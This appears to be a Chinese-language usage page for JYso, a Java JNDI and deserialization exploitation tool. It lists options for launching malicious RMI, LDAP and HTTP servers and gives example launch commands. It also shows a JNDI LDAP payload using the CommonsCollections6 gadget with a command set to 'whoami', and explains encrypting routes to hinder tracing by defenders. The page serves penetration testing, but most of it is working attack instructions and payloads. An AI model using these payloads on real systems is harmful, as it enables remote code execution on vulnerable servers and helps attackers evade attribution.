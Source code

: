 # 1 JNDIExploit 用法

```payload不区分大小写```

使用 ```java -jar JYso-[version].jar --jndi -h``` 查看参数说明，其中 ```--ip``` 参数为必选参数

```
Usage: java -jar JYso-[version].jar --jndi [options]
  Options:
  * -i,  --ip       Local ip address  (default: 127.0.0.1)
    -rP, --rmiPort  rmi bind port (default: 1099)
    -lP, --ldapPort Ldap bind port (default: 1389)
    -hP, --httpPort Http bind port (default: 3456)
    -g,  --gadgets  Show gadgets (default: false)
    -c,  --command  RMI this command
    -h,  --help     Show this help
    -ak  --AESkey   AES+BAse64 decryption of routes
    -u   --user     ldap bound account
    -p   --PASSWD   ldap binding password
    --jndi          start JNDImode
```

+ 一般启动示例

```
java -jar JYso-[version].jar --jndi -i 127.0.0.1
```

+ 需要账号密码认证的情况下

```shell
java -jar JYso-[version].jar --jndi -i 127.0.0.1 -u "dc=ex" -p "123456"
```

+ 对于BCEL这种超长请求，可以从http处取参，来减少请求长度

先发http请求参数，在发jndi payload

```
jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollections6/sethttp
```

```shell
http://127.0.0.1:3456/setPathAlias?a=whoami
```

![](https://gallery-1304405887.cos.ap-nanjing.myqcloud.com/markdown%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20230705100008.png)

+ 对路由加密反溯源，启动时需要把 AESkey 加上

```
java -jar JYso-2.6.jar --jndi -i 127.0.0.1 -ak 3yWm2mOpXudIPTqM
```

![](https://gallery-1304405887.cos.ap-nanjing.myqcloud.com/markdown%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20230704215102.png)


[//]: # (进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径，程序会尝试自动缩减类字节码的大小。)